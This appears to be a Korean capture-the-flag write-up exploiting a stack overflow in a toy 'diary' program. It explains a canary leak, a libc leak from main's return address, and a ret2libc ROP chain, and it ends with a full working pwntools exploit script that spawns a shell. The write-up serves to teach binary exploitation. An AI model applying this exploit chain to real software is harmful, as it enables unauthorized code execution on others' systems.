





> 
> 
> 
> canary leak & libc leak → libc base → libc gadget exploit
> 

이번 문제는 **Ch.5(카나리 leak) + Ch.4(libc leak·ROP)**를 합친 데다, 추가로 **"main의
리턴주소 = `__libc_start_call_main` 주소"** 라는 libc leak 트릭까지 쓰는 종합편이다.

---

## 1. 대상 분석

### 1-1. 코드 분석

diary라는 일기장 프로그램이다. 페이지 6개를 스택 버퍼로 두고, 포인터 배열 `diary[]`로 관리한다.

```c
int main(){
    int ch, index = 0;
    char page1[] = "As soon as I arrived here...";   // 스택 버퍼 (각 ~60~150바이트)
    char page2[] = "...";
    ... page3, page4, page5 ...
    char hidden[] = "Failed, failed, ... itchy, tasty";
    char* diary[] = {page1, page2, page3, page4, page5, hidden};  // 포인터 배열

    while(1){
        menu();                          
        scanf("%d", &ch);
        if (ch == 1){                    // read diary
            scanf("%d", &index);
            if (index >= 6 || index < 0) { puts("invalid index"); continue; }
            puts(diary[index]);          // 포인터가 가리키는 곳 출력 -> leak 가능
        }
        else if (ch == 2){               // write diary
            scanf("%d", &index);
            if (index >= 6 || index < 0) { puts("invalid index"); continue; }
            read(0, diary[index], 0x100);// 0x100=256 바이트 쓰기 -> 버퍼보다 커서 오버플로우 가능
        }
        else if (ch == 3) break;         // put down → 루프 탈출 → main return
    }
    puts("Ok let's go!");
    return 0;                            // 여기서 leave; ret -> 덮은 리턴주소로 점프
}
```

- **오버플로우**: `read(0, diary[index], 0x100)`는 **256바이트**를 쓰는데, 각 페이지 버퍼는
그보다 작다(문자열 길이 + 1). → **스택 오버플로우.**
    
    > `char page1[] = "리터럴"`은 **배열 크기 = strlen+1**로 고정.
    문자열 길이만를 대강 세어보면, 전부 256 미만이다.
    > 
- **leak 수단**: `puts(diary[index])`. puts는 **널을 만날 때까지** 출력. 오버플로우로 page5를
널 없이 채우면, puts가 그 위의 **카나리·리턴주소(libc)**까지 유출시킨다.
- **리턴**: menu 3(put down)을 고르면 루프를 빠져나와 `main`이 리턴 → `leave; ret`을 이용해
덮은 리턴주소로 점프시킬 수 있다

### 1-2. 보호기법 확인(checksec)



- **Canary** → 카나리 leak 필수.
- **NX** → 쉘코드 주입 불가 → ROP.
- **No PIE** → 바이너리 주소는 고정이지만, **win 함수·`system`이 바이너리에 없음** →
**libc의 system을 써야 함 → libc leak 필요**.

---

## 2. 익스플로잇 아이디어

### 2-1. "diary[] 포인터를 덮어 임의 읽기/쓰기" → 실패

처음엔 "`diary[i]` 포인터를 오버플로우로 덮으면, menu 1(puts)=임의 읽기, menu 2(read)=임의
쓰기"가 가능한 줄 알고 시도했다. 하지만 디스어셈블로 스택 배치를 보니 `diary[]` 배열이 모든 page 버퍼보다
아래(낮은 주소)에 있었다. 오버플로우는 **위로(높은 주소)** 쓰므로 **diary[]에 못 닿는다.** 

### 2-2.  page5(index 4) 오버플로우 → 리턴주소

page 버퍼 중 가장 높은 주소에 있는 `page5`(index 4)를 0x100 오버플로우하면 **카나리·saved
rbp·리턴주소까지 닿는다.** (다른 페이지는 거기까지 못 간다) 

### 2-3. win 없음 + 바이너리에 `pop rdi` 없음 → libc로 해결

- **win 함수 없음** → ret2win 불가능
- **`system`이 바이너리에 없음** → libc의 system 필요 → **libc leak 필요**



- **`ROPgadget`으로 봐도 바이너리에 `pop rdi; ret` 없음** → 인자(rdi) 세팅 가젯이 없다
    
    
    

> libc를 leak해서 libc 베이스를 알면, **libc 안의 `pop rdi; ret`·`system`·"/bin/sh"를 전부** 쓸 수
있다. 최종 ROP는 **바이너리 가젯이 아니라 libc 가젯**으로 구성했다.
> 

### 2-4. libc leak / "리턴주소 = libc 주소"

**`main`의 리턴주소(rbp+0x8) 자체가 libc 주소**다. main을 부른 게 `__libc_start_call_main`
(libc 내부)이기 때문이다(항상 이런가 싶어 따로 찾아보니, 동적 링크이고, main의 리턴주소이기 때문에 이런것이지 만약 정적 링크라면 libc가 바이너리에 위치해, 애초에 불가능하다.). PIE가 없으므로 **바이너리** 주소는 고정이지만 **libc는 ASLR 영향으로 주소가 계속 바뀐다. 이를 동적 계산하기 위해 libc 베이스를 구해, libc offset과 계산해야하는데**(libc_base + libc_offset = 실제 libc 주소), 이 main의 리턴주소를 읽으면 libc_base 역산이 가능하다. 

→ page5를 오버플로우해 **카나리+saved rbp를 널 없이 덮고**, `puts`가 그 위의 **리턴주소까지
유출하게** 만들면 libc는 유출된다.(puts는 널에서 멈추므로, 중간의 카나리·saved rbp의 널을 non-null로
덮어야 리턴주소까지 도달)

### 2-5. 익스플로잇 구조 (menu가 while(1) 루프라 여러 번 가능)

```
[A] 카나리 leak : page5에 'A'*0x98 + '\x01'       → menu1 puts → 카나리[1..7]
[B] libc  leak : page5에 'A'*0xa8 (카나리+saved rbp 덮음) → menu1 puts → 리턴주소(libc) 6바이트
                 → libc_base = ret_addr - 0x29d90
[C] system     : page5 오버플로우로 ROP 심음:
                   'A'*0x98 + canary + fake_rbp + [pop rdi][binsh][ret정렬][system]  (전부 libc)
                 → menu3(put down) → return → 카나리 통과 → system("/bin/sh") → 셸
```



> 0x29d90같은 경우, gdb를 통해 RET(rbp+8)과 libc_base를 확인한 뒤 그 사이의 offset을 직접 계산해 구할 수 있었다.
> 

---

## 3. 필요한 정보 확인

### 3-1. 스택 레이아웃 (disass main)

diary[] 세팅부(`lea [rbp-..]; mov [rbp-0x300 + i*8]`)와 접근부(`mov rax,[rbp+rax*8-0x300]`)에서
추출한 배치:

```
낮은 주소
  rbp-0x300  diary[0](→page1) ┐
  rbp-0x2f8  diary[1](→page2) │ 포인터 배열 (맨 아래 = overflow로 못 닿음)
  rbp-0x2f0  diary[2](→page3) │
  rbp-0x2e8  diary[3](→page4) │
  rbp-0x2e0  diary[4](→page5) │
  rbp-0x2d8  diary[5](→hidden)┘
  rbp-0x2d0  hidden
  rbp-0x290  page2
  rbp-0x230  page4
  rbp-0x1c0  page1
  rbp-0x130  page3
  rbp-0x0a0  page5     index 4 — 가장 높은 버퍼 → 오버플로우 대상
  rbp-0x008  canary
  rbp+0x000  saved rbp
  rbp+0x008  return address (= __libc_start_call_main 내부 = libc)
높은 주소
```

### 3-2. 오프셋 (page5 기준)

```
page5 → 카나리   = 0xa0 - 0x08 = 0x98 = 152
page5 → saved rbp = 0xa0
page5 → 리턴주소 = 0xa0 + 0x08 = 0xa8 = 168   (read 버퍼 256 크기 안에 들어간다.)
```

### 3-3. 카나리 leak (ch5와 동일)

카나리 바이트0은 항상 `0x00`이라 `puts`가 거기서 멈춘다. 그래서 **카나리 바이트0을 `0x01`로
덮어** puts가 카나리 상위 7바이트까지 흘리게 한다.

- page5에 `'A'*0x98 + '\x01'` → 'A'로 page5를 채우고, 0x98번째 바이트(`\x01`)가 카나리[0]을 덮음
- menu1 puts(page5) 출력 = `'A'*0x98 + 0x01 + 카나리[1..7] + ...`
- 복원: `canary = u64(b'\x00' + leak[0x98+1 : 0x98+8])` (바이트0은 항상 0x00이니 앞에 붙임)

> 카나리 1~7 중 하나가 우연히 0x00이면 puts가 끊긴다(약 2~3%).
다시 실행하면 새 카나리가 뽑힌다.
> 

### 3-4. libc leak (리턴주소 오프셋 = 0x29d90)

- page5에 `'A'*0xa8` → page5 + 카나리(8) + saved rbp(8)를 **전부 non-null로** 덮음
(리턴주소 자리(0xa8)는 **안 건드린다** → 원래 libc 값 유지 위해)
- menu1 puts(page5) 출력 = `'A'*0xa8 + 리턴주소 하위 6바이트` (상위 2바이트는 0x0000이라 puts가 멈춘다)
- `ret_addr = u64(leak[0xa8:0xa8+6].ljust(8, b'\x00'))`위에서 나온 RET 하위 6바이트 뒤에 \x00을 붙여 8바이트로 만들어 리턴 주소를 복원한다.
- **`libc_base = ret_addr - 0x29d90`** 0x29d90는 위에서 설명했듯, gdb를 통해 offset을 구해 알 수 있었다.

### 3-5. libc 가젯 (libc leak 후)

`libc.address`를 세팅하면 pwntools가 전부 실제 주소로 돌려준다:

| 부품 | 구하는 법 |
| --- | --- |
| `pop rdi; ret` | `ROP(libc).find_gadget(['pop rdi','ret'])[0]` |
| `ret` (정렬용) | `ROP(libc).find_gadget(['ret'])[0]` |
| "/bin/sh" | `next(libc.search(b'/bin/sh\x00'))` |
| `system` | `libc.sym['system']` |

---

## 4. Exploit

```python
from pwn import *
context.arch = 'amd64'
context.log_level = 'info'

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
p = process('./prob')

def write_diary(idx, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b': ', str(idx).encode())
    p.sendafter(b'content > ', data)

def read_diary(idx):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b': ', str(idx).encode())
    return p.recvline()

# 카나리 leak
write_diary(4, b'A'*0x98 + b'\x01')
canary = u64(b'\x00' + read_diary(4)[0x98+1:0x98+8])
log.success('canary   = %#018x' % canary)

# libc leak (main 리턴주소 = __libc_start_call_main + 0x29d90)
write_diary(4, b'A'*0xa8)
ret_addr = u64(read_diary(4)[0xa8:0xa8+6].ljust(8, b'\x00'))
libc.address = ret_addr - 0x29d90
log.success('libc base= %#018x' % libc.address)
assert libc.address & 0xfff == 0, "libc base가 000으로 안 끝남 → 오프셋 틀림!"

# ROP: system("/bin/sh")  (libc 가젯)
rop     = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret_g   = rop.find_gadget(['ret'])[0]
binsh   = next(libc.search(b'/bin/sh\x00'))
system  = libc.sym['system']

payload  = b'A'*0x98
payload += p64(canary)        # [rbp-0x8] 카나리 복원
payload += p64(0x404080)      # [rbp+0x0] fake saved rbp (매핑된 주소)
payload += p64(pop_rdi)       # [rbp+0x8] 리턴주소 → ROP 시작
payload += p64(binsh)
payload += p64(ret_g)         # 16바이트 정렬 (system movaps crash 방지)
payload += p64(system)
write_diary(4, payload)

p.sendlineafter(b'> ', b'3')  # put down → return → ROP 발동
p.interactive()
```

### payload 구조

```
[ 'A'×0x98 ][ canary ][ fake_rbp ][ pop_rdi ][ binsh ][ ret ][ system ]
   152바이트    8         8          8          8        8      8
  (page5채움)(rbp-0x8) (rbp+0x0)  (rbp+0x8=리턴주소부터 ROP 체인)
= 총 0xc8(200)바이트  (read 한도 256 안)
```

### ROP 흐름 (main의 ret 순간부터)

1. `pop rdi; ret` → 다음 값 `binsh`를 rdi에 → rdi = "/bin/sh"
2. `ret` → 정렬만 (rsp 8 밀어 16정렬 → system의 movaps 크래시 방지)
3. `system` → `system("/bin/sh")` → 셸

---

## 5. 클리어



---
